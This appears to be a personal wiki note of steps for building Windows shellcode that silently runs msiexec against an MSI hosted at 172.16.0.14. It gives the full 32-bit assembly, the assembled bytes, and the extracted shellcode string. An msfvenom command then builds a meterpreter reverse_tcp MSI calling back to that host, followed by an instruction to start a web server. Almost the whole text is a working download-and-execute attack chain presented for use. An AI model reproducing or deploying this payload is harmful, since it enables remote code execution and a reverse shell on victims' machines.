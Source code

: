 # *Note.... **I hate formatting wikis**

https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

1. I followed above first two tutorials (1. Intro tools & setup 2. My first shellcode.) to output shellcode, alternatively follow shellcode developer's write-
up....I'm sure it works!

Shellcode Developer: Kartik Durg

https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

2. The following asm does this: #

3. msiexec /i http://172.16.0.14/jasonm.msi /qn

4. Need to Determine LoadLibrary, ExitProcess & System via Arwin


------------assembly starts---------------

BITS 32


global _start


_start:
			
mov ebx, 0x777fde35      		;Address of function LoadLibraryA (win7)

call ebx

mov ebp, eax             		;msvcrt.dll is saved in ebp

xor eax, eax

PUSH eax

PUSH 0x6e712f20

PUSH 0x69736d2e

PUSH 0x6d6e6f73

PUSH 0x616a2f34

PUSH 0x312e302e

PUSH 0x36312e32

PUSH 0x37312f2f

PUSH 0x3a707474

PUSH 0x6820692f

PUSH 0x20636578

PUSH 0x6569736d

MOV EDI,ESP

PUSH EDI

MOV EAX, 0x768db177			;calling the system()

CALL EAX

xor eax, eax

push eax

mov eax, 0x7780be5a     		; ExitProcess

call eax

--------------assembly end----------------------------------

5. Save as msi.asm

6. Using Cygwin

7.xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.bin

8.xvz@xvz-PC ~
$ xxd -i msi.bin
unsigned char msi_bin[] = {
  0x4c, 0x01, 0x01, 0x00, 0x2e, 0x4c, 0x0f, 0x5f, 0x93, 0x00, 0x00, 0x00,
  0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78,
  0x74, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x57, 0x00, 0x00, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x93, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x20, 0x00, 0x50, 0x60,
  0xbb, 0x35, 0xde, 0x7f, 0x77, 0xff, 0xd3, 0x89, 0xc5, 0x31, 0xc0, 0x50,
  0x68, 0x20, 0x2f, 0x71, 0x6e, 0x68, 0x2e, 0x6d, 0x73, 0x69, 0x68, 0x73,
  0x6f, 0x6e, 0x6d, 0x68, 0x34, 0x2f, 0x6a, 0x61, 0x68, 0x2e, 0x30, 0x2e,
  0x31, 0x68, 0x32, 0x2e, 0x31, 0x36, 0x68, 0x2f, 0x2f, 0x31, 0x37, 0x68,
  0x74, 0x74, 0x70, 0x3a, 0x68, 0x2f, 0x69, 0x20, 0x68, 0x68, 0x78, 0x65,
  0x63, 0x20, 0x68, 0x6d, 0x73, 0x69, 0x65, 0x89, 0xe7, 0x57, 0xb8, 0x77,
  0xb1, 0x8d, 0x76, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xb8, 0x5a, 0xbe, 0x80,
  0x77, 0xff, 0xd0, 0x2e, 0x66, 0x69, 0x6c, 0x65, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0xfe, 0xff, 0x00, 0x00, 0x67, 0x01, 0x6d, 0x73, 0x69,
  0x2e, 0x61, 0x73, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x03, 0x01, 0x57, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x61, 0x62, 0x73, 0x6f, 0x6c, 0x75, 0x74, 0x00,
  0x00, 0x00, 0x00, 0xff, 0xff, 0x00, 0x00, 0x03, 0x00, 0x40, 0x66, 0x65,
  0x61, 0x74, 0x2e, 0x30, 0x30, 0x01, 0x00, 0x00, 0x00, 0xff, 0xff, 0x00,
  0x00, 0x03, 0x00, 0x04, 0x00, 0x00, 0x00
};

8.Get rid of null bytes

9.xvz@xvz-PC ~
$ ./xxd-shellcode.sh msi.bin

"\xbb\x35\xde\x7f\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x73\x6f\x6e\x6d\x68\x34\x2f\x6a\x61\x68\x2e\x30\x2e\x31\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x37\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x8d\x76\xff\xd0\x31\xc0\x50\xb8\x5a\xbe\x80\x77\xff\xd0"

10.Add to script

11.Create MSI
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

Start web-server port 80
